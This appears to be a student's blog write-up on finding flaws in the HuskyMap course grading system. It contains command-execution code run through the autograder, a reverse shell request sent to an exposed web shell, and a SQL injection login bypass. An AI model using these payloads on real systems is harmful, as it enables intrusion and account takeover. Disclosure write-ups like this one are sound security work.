 ```yaml
---
title: '[Special: Bug Hunting] RCE and SQL Injection! (HuskyMap)'
date: '2023-3-24'
lastmod: '2023-3-24'
tags: ['writeup', 'other']
draft: false
summary: 'A vulnerability discovered! Is this a homework platform disguised as a CTF challenge?'
authors: ['vincent']
layout: PostLayout
---
```


# Introduction

HuskyMap is the homework/grading system created and used in CS211 by [Professor Varik Hoang](http://www.varikmp.net).
Students log in with credentials provided to them at the beginning of the course, and mainly utilize two of HuskyMap's functions:
Quiz Taking and Sanity Checks (test case validation for programming assignments).

# Part 1: Discovery

It was 5AM on Wednesday, and with a calculus and biology exam on Friday and the ACT on Saturday, I did what any other student would do
with huge priorities looming ahead: procrastinate by booting up my HuskyMap and looking for trouble! 😊

The first thing I tried was testing for RCE through the sanity check system. Hijacking one of my java assignments, I appended this into the main method:

```java
String command = "ls";
Process p;
try {
  p = Runtime.getRuntime().exec(command);
  InputStream in = p.getInputStream();
  int c;
  while ((c = in.read()) != -1) {
    System.out.print((char) c);
  }
  in.close();
} catch (Exception e) {
  System.out.print(e);
}
```

I was able to confirm the command executed by viewing the error logs on HuskyMap, but this didn't come as unexpected. Many homework graders
and online compilers all have "RCE" possibilities, but since they're virtualized nothing really comes of it.

Unfortunately for HuskyMap, after some testing, I found that it wasn't virtualized at all. Now honestly I could've stopped here, but I wasn't satisfied.
I didn't have read/write access to a lot of things, and uploading new code each time was getting time consuming with the built-in 5 minute sanity check cooldown.
I also wanted a reverse shell, but through the sanity check, my payload wasn't working.
`pwd` was giving me `/var/www/html/course/grading/log/work/48.17`, but I wasn't able to access any file I created by navigating to this directory. I discovered later
that my dead-end's were due to how the grader worked, but in the meantime, what I did was map out how most of the directory tree looked.

# Part 2: Reverse Shell Access

After mapping out the directory tree, I looked at `cat /var/www/html/course/index.php`. In particular, I noticed a particularly interesting chunk of code:

```php
<?php
    // already logged in and has valid page
    if (isset($_SESSION['account']))
    {
        include 'pages/data.php';
        include 'pages/menu.php';
        if ($is_valid_page_id)
        {
            if ($page['is_intro'])
                include 'pages/intro.php';

            include 'pages/' .$page['directory_path'] . "/" . $page['file_path'];
            if ($account['permission'] > 0) // TODO should be more secure later
                echo '<div style="text-align: center"><input class="btn btn-primary btn-sm" type="button" onclick="window.location.href = \'?editor=' . $page_id . '\'" value="Edit Page"></div></br/>';
            // window.location.href = 'varikmp.com';   => simulate a mouse click
            // window.location.replace('varikmp.com'); => simulate an HTTP redirect
        }
        else if ($is_valid_editor_id) // TODO should be more secure later
        {
            include 'pages/editor.php';
            if ($account['permission'] > 0) // TODO should be more secure later
            {
                echo '<div style="text-align: center">';
                echo '<input id="view_page" disabled class="btn btn-primary btn-sm" type="button" onclick="';
                echo 'window.location.href = \'?page=' . $page_id . '\';';
                echo '" value="View Page">';
                echo '</div></br/>';
            }
        }
        else if (isset($_GET["slide"])) // TODO should be more secure later
        {
            include 'pages/slide.php';
        }
        else if ($is_valid_quiz_id)
        {
            if ($quiz['password'] === '' || (isset($_GET['pass']) && $quiz['password'] === trim($_GET['pass'])))
            include 'pages/quiz.php';
        }
        else if ($is_valid_contest_id && $contest['password'] === '' || (isset($_GET['pass']) && $contest['password'] === trim($_GET['pass'])))
        {
            include 'pages/contest.php';
        }
        else if (isset($_GET["manage"]) || isset($_POST["manage"])) // TODO should be more secure later
        {
            include 'pages/manage.php';
        }
        else if (isset($_GET["error"])) // TODO should be more secure later
        {
            include 'pages/error.php';
        }
        else if (isset($_GET["shell"]) && $account['permission'] > 0) // TODO should be more secure later
        {
            include 'pages/shell.php';
        }
        else
        {
            include 'pages/course.php';
        }
    }
    else include 'pages/login.php';
?>
```

_These brackets though...!!!_

> TODO should be more secure later

Well I guess that later hadn't occured yet because I was able to access `shell.php` just by navigating there on my browser. Reminder to configure apache correctly!

![shell](/static/images/blog/writeups/other/huskymap/shell.png)

I couldn't interact with it on the browser, but looking at `shell.php`, I was able to figure out it was a fork of [p0wny@shell](https://github.com/flozz/p0wny-shell)!

Now for the magic, sending a POST request to `/shell.php?feature=shell` with the `cmd` field as  
`bash -c "bash -i >& /dev/tcp/[IP]/[PORT] 0>&1"`!

```
POST http://[HUSKYMAP IP]/course/pages/shell.php?feature=shell
POST /course/pages/shell.php?feature=shell HTTP/1.1
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Cache-Control: no-cache
Postman-Token: [Removed]
Host: 18.224.94.128
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F[IP]%2F[PORT]%200%3E%261%22
```

Reverse Shell Get!

# Part 3: Login SQL Injection

After getting the reverse shell, I decided to poke around a bit more. One thing that really stuck out to me is how the login was handled in `login.php`

```php
$username = trim($_POST['username']);
$password = trim($_POST['password']);

$db = new SQLite3('db/course.db');
$query  = 'select * from user ';
$query .= 'where username = "' . $username . '" and is_active = 1';

$result = $db->query($query);
$user = $result->fetchArray();

if ($user && password_verify($password, $user['password']))
{
  ...
}
```

Wow, a string concatenated SQL statement! Referencing [this](https://stackoverflow.com/questions/50756182/sql-injection-with-password-verify) post along with the
course database, our final payload is as follows:

Username: `admin" UNION SELECT 1, 'admin', '$1$d39Yd9ds$B.wYz.OSxB/HdGmKWWpP10', 'admin', '', '', '', 2, 1 ;--`  
Password: `SQLInjection!!!` (hash generated using PHP `crypt()`)

# Conclusion

Although the vulnerability discovered here isn't the most innovative, it was a good exercise and a reminder that not all application in production are completely secure.
Thank you to Professor Varik for being so open to my little endeavour, and for being an awesome CS211 instructor!
